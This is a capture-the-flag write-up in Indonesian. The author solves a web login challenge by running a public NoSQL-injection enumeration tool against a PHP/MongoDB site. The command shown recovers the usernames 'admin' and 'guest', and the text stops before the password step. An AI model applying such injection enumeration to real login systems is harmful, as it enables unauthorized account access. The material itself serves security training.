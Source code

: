 # Mongkey
## About The Challenge

![Screenshot from 2023-06-13 23-29-18](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/3e7357c6-7216-4156-8aeb-82cbe8408d6e)

Diberikan sebuah website http://103.167.136.89:10002/ dengan tampilan :
![Screenshot from 2023-06-13 23-32-03](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/a9bd5a88-8c40-4c30-a4a3-b1c17b0af079)

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari (https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
admin
guest
```
guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell

